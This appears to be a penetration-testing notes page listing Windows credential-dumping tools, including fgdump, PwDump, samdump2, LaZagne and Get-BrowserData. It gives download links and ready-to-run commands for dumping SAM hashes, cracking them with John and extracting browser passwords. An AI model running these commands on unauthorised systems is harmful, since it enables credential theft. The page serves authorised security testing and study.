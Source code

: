 # Other Tools / Techniques

### <mark style="color:orange;">credential editor</mark>

This tool can be used to extract credentials from the memory. Download it from:

{% embed url="https://www.ampliasecurity.com/research/windows-credentials-editor/" %}

### <mark style="color:orange;">fgdump</mark>

Extract credentials from the SAM file. You can find this binary inside Kali, just do:

```
 locate fgdump.exe
```

then run it on windows:

```
fgdump.exe
```

### <mark style="color:orange;">PwDump</mark>

Extract credentials from the SAM file

You can find this binary inside Kali, just do:

```
locate pwdump.exe
```

run it on windows with:

```
PwDump.exe -o outpwdump -x 127.0.0.1
type outpwdump
```

### <mark style="color:orange;">Generate a hash file for John using pwdump or samdump2</mark>

```
pwdump SYSTEM SAM > /root/sam.txt
samdump2 SYSTEM SAM -o sam.txt
```

Then crack it with:

```
john -format=NT /root/sam.txt
```

### <mark style="color:orange;">PwDump7</mark>

{% embed url="http://www.tarasco.org/security/pwdump_7" %}

### <mark style="color:orange;">Lazagne</mark>

{% embed url="https://github.com/AlessandroZ/LaZagne/releases/" %}

{% embed url="https://github.com/AlessandroZ/LaZagne" %}

```
lazagne.exe all
```

### <mark style="color:orange;">get-browserdata(powershell)</mark>

{% embed url="https://raw.githubusercontent.com/rvrsh3ll/Misc-Powershell-Scripts/master/Get-BrowserData.ps1" %}

```
Get-BrowserData.ps1 | Format-List
```
